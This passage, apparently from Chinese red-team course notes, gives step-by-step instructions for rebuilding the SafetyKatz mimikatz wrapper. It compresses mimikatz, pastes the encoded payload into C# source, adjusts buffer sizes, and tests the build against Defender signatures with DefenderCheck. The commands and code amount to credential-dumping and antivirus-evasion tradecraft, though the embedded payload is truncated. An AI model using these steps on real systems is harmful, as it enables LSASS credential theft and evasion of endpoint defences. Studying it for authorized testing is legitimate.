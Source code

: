 2. 使用Out-CompressedDll.ps1操作mimikatz，导出结果到outputfilename.txt
```
PS D:\BaiduNetdiskDownload\CRTE\Tools> . .\Out-CompressedDll.ps1
PS D:\BaiduNetdiskDownload\CRTE\Tools> Out-CompressedDll D:\BaiduNetdiskDownload\CRTE\Tools\mimikatz_trunk\x64\mimikatz.exe > outputfilename.txt
PS D:\BaiduNetdiskDownload\CRTE\Tools>
```

3. 打开outputfilename.txt

4. 替换constants.cs
把```$EncodedCompressedFile```这个变量的内容

```
$EncodedCompressedFile = @'3H15fF.....s/wA='
```

复制到SafetyKatz项目的```constants.cs```这个文件里的```compressedMimikatzString```变量
```
namespace SafetyKatz
{
    public static class Constants
    {
        // compressed mimikatz.exe output from Out-CompressedDLL
        public static string compressedMimikatzString = "3H15fF.....s/wA=";
    }
}

```

5. 替换Program.cs

把outputfilename.txt下面这行代码的数字
```
$DeflatedStream.Read($UncompressedFileBytes, 0, 1234696) | Out-Null
```
替换到Program.cs的 111 和 116行

```
                Byte[] unpacked = new byte[1234696];
                ...
                ...
                stream.Read(unpacked, 0, 1234696);
```

6. 保存。生成exe。使用DefenderCheck检查

```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\SafetyKatz-master\SafetyKatz\bin\Debug\SafetyKatz.exe

OriginalFileDetectionStatus is : ThreatFound
Target file size: 1569280 bytes
Analyzing...

File matched signature: "VirTool:MSIL/DumpLsass.A"

[!] Identified end of bad bytes at offset 0x17E009 in the original file
File matched signature: "VirTool:MSIL/DumpLsass.A"

00000000   76 00 30 00 52 00 70 00  65 00 4C 00 6D 00 69 00   v·0·R·p·e·L·m·i·
00000010   62 00 37 00 62 00 68 00  74 00 65 00 31 00 53 00   b·7·b·h·t·e·1·S·
00000020   56 00 6C 00 64 00 76 00  6A 00 45 00 43 00 35 00   V·l·d·v·j·E·C·5·
00000030   31 00 66 00 48 00 6D 00  6B 00 38 00 50 00 4B 00   1·f·H·m·k·8·P·K·
00000040   69 00 30 00 67 00 32 00  66 00 75 00 6B 00 63 00   i·0·g·2·f·u·k·c·
00000050   6E 00 54 00 67 00 71 00  38 00 6C 00 46 00 74 00   n·T·g·q·8·l·F·t·
00000060   72 00 4D 00 75 00 39 00  37 00 54 00 50 00 75 00   r·M·u·9·7·T·P·u·
00000070   58 00 64 00 59 00 6A 00  76 00 66 00 30 00 69 00   X·d·Y·j·v·f·0·i·
00000080   4B 00 50 00 4A 00 6F 00  61 00 49 00 41 00 79 00   K·P·J·o·a·I·A·y·
00000090   4F 00 38 00 67 00 74 00  36 00 57 00 50 00 52 00   O·8·g·t·6·W·P·R·
```